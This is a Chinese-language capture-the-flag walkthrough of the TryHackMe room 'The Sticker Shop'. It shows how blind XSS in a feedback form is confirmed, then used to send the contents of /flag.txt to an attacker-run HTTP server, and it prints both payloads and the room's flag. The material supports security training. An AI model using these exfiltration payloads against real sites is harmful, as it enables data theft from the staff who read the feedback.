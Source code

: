 # The Sticker Shop

[room url](https://tryhackme.com/r/room/thestickershop)

## Check out the site's features

靶機就是一個網站，有一個填寫 feedback 的功能

![](img/1.png)
![](img/2.png)

題目敘述中提到：They decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback.  
代表這個站台是有連出去的功能的，網頁功能也不多，所以先來試試看 XSS 會不會成功。這邊有測試過 feedback 功能，輸入的文字是不會顯示於網站的任何地方的，所以應該是屬於 Blind XSS 的攻擊方式。

## Blind XSS test

為了要測試是否可以透過 Blind XSS 連出去，先在 Kali 上起一個 server 讓目標有地方連。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server                                 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

接著在 feedback 的地方嘗試輸入以下 script 驗證是否會連線至我們起的 server

```HTML
<script>
    fetch('http://10.17.1.65:8000/')
</script>
```

回到 python server 的 log 查看，的確有連過來，代表這邊是可以進行 blind XSS 的。

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server                                 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.152 - - [08/Dec/2024 04:05:57] "GET / HTTP/1.1" 200 -
```

## Use Blind XSS to trigger a callback to the host and retrieve the flag

現在只要寫一個 script 會讓目標把 flag.txt 的資料一起帶過來就可以了

```HTML
<script>
fetch("/flag.txt", {method:'GET', mode:'no-cors'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.17.1.65:8000/' + text); 
  });
</script>
```

回去 python server log 就可以拿到 flag 了

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.152 - - [08/Dec/2024 04:22:05] code 404, message File not found
10.10.11.152 - - [08/Dec/2024 04:22:05] "GET /THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 404 -
```
